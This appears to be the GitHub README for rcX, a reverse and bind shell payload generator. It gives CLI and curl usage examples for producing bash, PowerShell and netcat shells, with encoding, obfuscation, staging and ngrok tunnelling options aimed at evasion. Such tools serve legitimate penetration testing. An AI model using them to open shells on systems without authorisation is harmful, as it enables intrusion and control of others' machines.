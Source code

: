 
[![Build](https://github.com/FlyfishSec/rcX/actions/workflows/build.yml/badge.svg)](https://github.com/FlyfishSec/rcX/actions/workflows/build.yml)
[![Python 2.6|2.7|3.8|3.9](https://img.shields.io/badge/python-2.6|2.7|3.6|3.7|3.8|3.9|3.10-green.svg?logo=python&logoColor=yellow)](https://www.python.org/)
[![GitHub release](https://img.shields.io/github/v/tag/FlyfishSec/rcX.svg?label=release&color=green)](https://github.com/FlyfishSec/rcX/releases)
[![License](https://img.shields.io/badge/license-GPLv2-red.svg?color=green)](https://cdn.rawgit.com/FlyfishSec/rcX/main/LICENSE)
# [<img width="80" src="https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/logo.png"/>](https://github.com/FlyfishSec/rcX/releases)
## rcX online([rcxonline.cf](https://rcxonline.cf))
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-online.gif "rcX")

## What is rcX?
### "rc" - stands for remote command or remote code.
### "X" - you can understand as assistant or tool.

  The predecessor of rcX is rsGen(A Reverse Shell Payload Generator). Currently, it is a powerful Reverse/Bind shell Generator.
  More features will be added in the future.
  
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-main.png "rcX")

## Follow me
`pip install -r requirements.txt`
or Download the packaged binaries
### CLI Usage
#### Example:
##### 1.Get a bash reverse shell and output in tabular format.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --table`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-table.png "rcX")
##### 2.Custom shell path.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash -s "/bin/sh"`
##### 3.Copy the specified id payload to the clipboard.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --table -c 5`
##### 4.Get a base64 encoded bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash -e base64`
##### 5.Get a xor encoded and obfuscated bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash -e xor --obf reverse --table --clip 7`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-obf.png "rcX")
##### 6.Get a staging bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --staging-url 0 --staging-cmd 0`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-staged.png "rcX")
##### 7.Get a staging bash reverse shell and forward local port using ngrok tunnel.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --tunnel ngrok_jp`
##### 8.Get a Windows Powershell reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t powershell -P windows`
#### ...

### Web UI
> At the same time, rcX also provides a web interface. 
Use rcX as a server then you can use it with your team or friends.
> Tip: When rcX is running as a server, if the request origin is not 127.0.0.1 or localhost, the ngrok tunnel feature will be disabled and the related options will be hidden on the Front-end
#### Example:
`python rcX.py -w`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-web.gif "rcX")

### Web CLI
> When rcX is running as a server, you can use curl in terminal to get the payload.
#### Example:
##### 1.Get a bash reverse shell payload
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888`
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcx-web-cli.png "rcX")
##### 2.Base64 encoded
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/base64`

##### 3.Base64 and hex encoded
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/base64,hex`

##### 4.Gzip compress and replace_char(obfuscation method)
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/gzip/replace_char`

##### 5.xor encoded and reverse(obfuscation method)
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/xor/reverse`

##### 6.Get a Windows powershell reverse shell payload
  `curl http://127.0.0.1/windows/powershell/127.0.0.4/44444`

##### 7.replace_char(obfuscation method) only without using encoder
  `curl http://127.0.0.1/windows/powershell/127.0.0.4/44444/,/replace_char`

##### 8.Only use staging, without any encoder and obfuscator
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/,/,/1/1`

##### 9.Get a bind linux netcat shell payload
  `curl http://127.0.0.1/bind/linux/netcat/127.0.0.4/8888`


## Support rcX

|Bitcoin Address QR Code|Ethereum Address QR Code|Monero Address QR Code|DOGECOIN Address QR Code|
|:--------------------------------------------------------------------------------------------------------------:|:-------------------------------------------------------------------------------------------------------------------------:|:-------------------------------------------------------------------------------------------------------------------------:|:--------------------------------------------------------------------------------------------------------------------------:|
| <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-btc.png"/> | <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-eth.png"/> | <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-xmr.png"/> | <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-doge.png"/> |

*BTC*: 3F2R6KMXbJ576yJNJpjrBnhVG64Ltg1WoF

*ETH*: 0xab15323b0c7721B6B9fDf5A8089a6Ec697C9feED

*XMR*: 48rBRHh2iV27oHzXMGnjbwCLLyinpqFry6gLTAaQiFVtMRw4kqabeoFiBYqNAPCBHbKjgQezPNLwDihMSNbEPCuYP1xzCWi

*Dogecoin*: DBQATuB7t4wk56dwFqcGdqQtY8BSjL77if


